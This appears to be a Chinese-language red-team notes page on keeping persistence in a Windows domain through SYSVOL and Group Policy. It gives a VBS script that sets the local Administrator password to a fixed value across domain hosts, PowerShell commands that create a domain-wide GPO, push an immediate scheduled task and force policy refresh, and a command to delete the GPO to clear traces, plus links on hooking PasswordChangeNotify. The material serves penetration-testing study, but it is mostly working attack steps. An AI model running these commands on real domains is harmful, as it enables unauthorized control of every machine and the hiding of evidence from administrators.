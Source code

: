 SYSVOL 是所有经过身份验证的用户具有读取权限的 Active Directory 中的域范围共享。SYSVOL 包含登录脚本，组策略数据以及其他域控制器中需要使用的全域数据。

SYSVOL 共享将自动同步并在所有域控制器之间共享。

组策略也相当于远控,可以配置脚本让域内的每一台电脑都种上马批量执行一遍。

- 计划任务案例

    **修改密码**

    changepass.vbs
    ```
    strComputer = "."
    Set objUser = GetObject("WinNT://" & strComputer & "/Administrator, user")
    objUser.SetPassword "Zaq1xsw2"
    objUser.SetInfo
    ```
    这个脚本的作用是修改本地管理员账户的密码为 Zaq1xsw2

    在域策略的 GPO 下面下发这个脚本
    ![](../../../../assets/img/Security/RedTeam/后渗透/权限维持/3.png)

    在域内主机上面登录域普通用户,强制刷新组策略 `gpupdate /force`,查看 vbs 脚本

    ![](../../../../assets/img/Security/RedTeam/后渗透/权限维持/4.png)

    ---

    **按照时间定时的收集信息**

    导入 powershell 中管理 GPO 的模块,创建一个作用整个域的 GPO
    ```
    Import-Module GroupPolicy -verbose
    new-gpo -name TestGPO | new-gplink -Target "dc=test1,dc=local"
    ```

    执行脚本添加计划任务
    ```
    New-GPOImmediateTask -TaskName Debugging -GPODisplayName TestGPO -SysPath '\\dc\sysvol\test1.local' -CommandArguments '-c "123 | Out-File C:\test\debug.txt"'
    ```

    强制更新组策略，或者默认等待90分钟组策略强制更新
    ```
    Invoke-GPUpdate -Computer "TEST\COMPUTER-01"
    ```

    清理痕迹
    ```
    Remove-GPO -Name TestGPO
    ```

---

#### Hook_PasswordChangeNotify

**相关文章**
- [域渗透——Hook PasswordChangeNotify](http://drops.xmd5.com/static/drops/tips-13079.html)
- [维持域管权限的一些简单办法[Hook PasswordChangeNotify]](https://klionsec.github.io/2016/08/16/Hook-PasswordChangeNotify/)

---